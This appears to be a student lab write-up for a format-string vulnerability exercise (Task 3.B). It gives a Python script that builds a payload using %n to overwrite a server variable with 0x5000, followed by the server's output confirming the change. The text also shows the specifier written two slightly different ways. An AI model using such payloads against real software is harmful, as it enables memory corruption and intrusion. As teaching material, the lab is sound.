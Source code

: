 ### Task 3.B

In this task, instead of changing the content of the _target_ variable to an arbitrary value, we want to change it to a specific value `0x5000`. To do this, we followed the same logic we used in **Task 3.A** by taking advantage of the `%n` format specifier.

We know that the integer value of `0x5000` is 20480. For the content of the _target_ variable to be changed to `0x5000` we have to fill the format string with 20480 characters up to the `%n` format specifier. This is where we face a problem: the buffer size only allocates 1500 bytes. So what we have to do is to include in the format string the specifier `%x` with a width of 20475 characters, in order to specify the number of characters that are written to represent in hexadecimal a given value: `%20475$x`.

We needed to change the python script to place the address of the _target_ variable at the beginning of the format string, plus the format specifier `%20475x\n%64$n`:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%20475x" + "\n" + "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The value 20475 was reached from the 20480 characters needed, less 4 bytes, which represent the size occupied by the address at the beginning of the format string, minus 1 byte from the \n, for the line with the new value to be at the bottom.

Finally, when executing the python script, we obtain the following result, where we can observe that the value of the _target_ variable change to `0x5000`:

```rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd0d0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffcff8
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | h
(..empty space..)
                                                                           11223344
server-10.9.0.5  | The target variable's value (after):  0x00005000
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```